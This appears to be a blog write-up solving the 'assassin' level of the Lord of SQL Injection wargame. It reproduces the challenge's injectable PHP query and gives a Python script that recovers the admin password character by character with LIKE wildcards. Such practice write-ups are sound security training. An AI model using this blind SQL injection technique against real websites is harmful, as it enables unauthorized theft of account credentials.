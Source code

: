 ```yaml
---
layout: post
title:  "los prob_assassin"
date:   2019-09-19
excerpt: "Lord of Sql Injection"
tag:
- los
- blind_sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_assassin where pw like ''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. like의 특징 이용 -> ex) pw에 admin이라는 값이 있을 때 'pw like ad%' -> true
2. guest's pw랑 admin's pw 앞부분이 같음

~~~ python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookies = {"PHPSESSID":"xxxxxxxxxxxxx"}

flag = "90" # -> 하나씩 확인해가면서 늘려줌 ex) 9 -> 90 -> 90D
# 90D2FE10 -> guest's pw
isFind = True
while (isFind == True):
    for i in range(48,127):
        isFind = False
        params = "?pw="+flag+chr(i)+"%"
        response=requests.get(url+params,cookies=cookies)
        if (response.text.find("Hello admin") != -1):
            flag += chr(i)
            isFind = True
            print("[+] Find key :",flag)
            break
print ("[-] Finish")
~~~

## GIANT Clear!
